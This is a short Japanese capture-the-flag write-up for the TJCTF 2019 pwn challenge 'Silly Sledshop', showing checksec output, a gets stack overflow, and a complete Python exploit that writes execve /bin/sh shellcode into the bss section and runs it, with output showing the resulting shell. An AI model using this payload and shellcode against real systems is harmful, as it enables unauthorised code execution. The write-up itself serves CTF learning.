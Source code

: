 # [pwn 80pts] Silly Sledshop - TJCTF 2019
32bitで全部無効です。shellcodeが動かせますね。
```
$ checksec 443fc1af632011028063e52ee67e68447bf8764e29d0f24ecf388c2e69e57522_sledshop
[*] '443fc1af632011028063e52ee67e68447bf8764e29d0f24ecf388c2e69e57522_sledshop'
    Arch:	32 bits (little endian)
    NX:		NX disabled
    SSP:	SSP disabled (No canary found)
    RELRO:	Partial RELRO
    PIE:	PIE disabled
```
IDAで見ると、getsによるスタックオーバーフロー脆弱性があります。
ということで、getsでbssセクションにシェルコードを書き込んだ後、それを実行してやりましょう。
（あれ、これ昨日ENCRYPT CTFで解いたぞ......？）

```python
from ptrlib import *

elf = ELF("./443fc1af632011028063e52ee67e68447bf8764e29d0f24ecf388c2e69e57522_sledshop")
sock = Process("./443fc1af632011028063e52ee67e68447bf8764e29d0f24ecf388c2e69e57522_sledshop")

shellcode = b"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"

plt_gets = 0x080483d0

payload = b'A' * 0x50
payload += p32(plt_gets)
payload += p32(elf.symbol("__bss_start"))
payload += p32(elf.symbol("__bss_start"))

sock.recvuntil("like?")
sock.sendline(payload)

sock.send(shellcode)

sock.interactive()
```

はいできました。
```
$ python solve.py 
[+] Process: Successfully created new process (PID=6480)

Sorry, we are closed.
[ptrlib]$ id
[ptrlib]$ id
uid=1000(ptr) gid=1000(ptr) groups=1000(ptr),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),116(lpadmin),126(sambashare),999(docker)
[ptrlib]$
```

# 感想
割と簡単な問題だと思います。